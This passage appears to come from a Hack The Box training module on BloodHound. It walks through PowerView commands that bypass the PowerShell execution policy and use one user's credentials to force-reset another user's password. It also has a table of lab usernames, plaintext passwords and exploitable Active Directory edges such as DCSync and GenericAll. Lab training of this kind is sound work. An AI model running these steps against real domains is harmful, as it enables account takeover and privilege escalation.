 Let's use PowerView to change Rosy's password using the Grace account.

#### Import PowerView Module

```powershell
PS C:\htb> Set-ExecutionPolicy Bypass -Force
PS C:\htb> Import-Module C:\tools\PowerView.ps1

```

Create a PSCredential object with Grace's credentials:

```powershell
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Password11' -AsPlainText -Force
PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\grace', $SecPassword)

```

Then create a secure string object for the password we want to set to Rosy:

```powershell
PS C:\htb> $UserPassword = ConvertTo-SecureString 'NewRossyCreds!' -AsPlainText -Force

```

Use the function `Set-DomainUserPassword` with the option `-Identity`, which corresponds to the account we want to change its password (rosy), add the option `-AccountPassword` with the variable that has the new password, use the option `-Credential` to execute this command using Grace's credentials. Finally, set the option `-Verbose` to see if the change was successful.

```powershell
PS C:\htb> Set-DomainUserPassword -Identity rosy -AccountPassword $UserPassword -Credential $Cred -Verbose
VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'rosy'
VERBOSE: [Set-DomainUserPassword] Password for user 'rosy' successfully reset

```

We can now connect via RDP to `SRV01` using `Rosy` account.

## BloodHound Playground

One of the things we wanted to achieve with this BloodHound module was to create a playground to test as many BloodHound edges as possible. This is because sometimes we want to try a concept before applying it in a Pentest or understand why a specific command fails during a CTF. So we created multiple vulnerabilities in this lab for these tests and practiced as many edges as we wanted.

The following table contains a list of credentials and the edges that can be exploited.

| **Username** | **Password** | **Edge** | **Target** |
| --- | --- | --- | --- |
| grace | Password11 | ForceChangePassword | rosy |
| rosy | Password99 | CanRDP, CanPSRemote, ExecuteDCOM | SRV01 |
| sarah | Password12 | AdminTo | SRV01 |
| martha | Password13 | AddMembers | ITManagers |
| victor | Password14 | AddSelf | ITManagers |
| ester | Password15 | AllowedToDelegate | SRV01 |
| peter | Licey2023 | DCSync | INLANEFREIGHT |
| pedro | Password17 | GenericAll (User) | ester |
| pedro | Password17 | GenericAll (Group) | ITAdmins |
| pedro | Password17 | GenericAll (Computer) | WS01 |